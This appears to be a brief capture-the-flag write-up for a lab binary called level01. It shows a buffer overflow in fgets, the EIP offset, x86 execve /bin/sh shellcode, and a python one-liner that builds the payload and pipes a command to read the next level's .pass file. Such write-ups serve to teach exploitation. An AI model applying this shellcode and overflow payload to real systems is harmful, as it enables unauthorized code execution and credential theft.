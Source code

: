 This program take a username in the first fgets then a password in the second one.

the second fgets is vulnerable to a buffer overflow.
So we can overwrite the return address of the function to execute our shellcode.
let's find the eip
The EIP offset is 80

shellcode from shell storm: \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

(python -c '''

user = "dat_wil"
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
padding = "X" \* (256 - len(user + shellcode) + 79)

print user + shellcode + padding + "\x08\x04\xa0\x47"[::-1]

'''; echo "cat /home/users/level02/.pass" ) | ./level01

